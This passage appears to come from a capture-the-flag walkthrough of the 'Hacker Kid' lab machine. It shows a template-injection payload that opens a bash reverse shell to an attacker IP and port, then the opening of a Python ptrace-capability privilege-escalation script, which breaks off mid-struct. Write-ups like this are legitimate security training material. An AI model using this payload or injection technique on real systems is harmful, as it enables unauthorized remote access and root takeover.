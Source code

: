 ```bash
# change the IP to your machine IP
{%import os%}{{os.system('bash -c "bash -i >& /dev/tcp/10.176.154.65/1337 0>&1"')}}
```

![ssti-payload.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/ssti-payload.png)

> **Successfully get a Reverse Shell**
> 

![shell.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/shell.png)

![rev-shell.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/rev-shell.png)

---

### Privilege Escalation

- Run Linpeas to get more information about the target system.
- Found → python2.7

![python-suid.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/720fde40-3949-4e0d-8dc9-15fce8dc4ffe.png)

> **Reference:** https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc
> 

Python script

```bash
import ctypes
import sys
import struct

PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
```
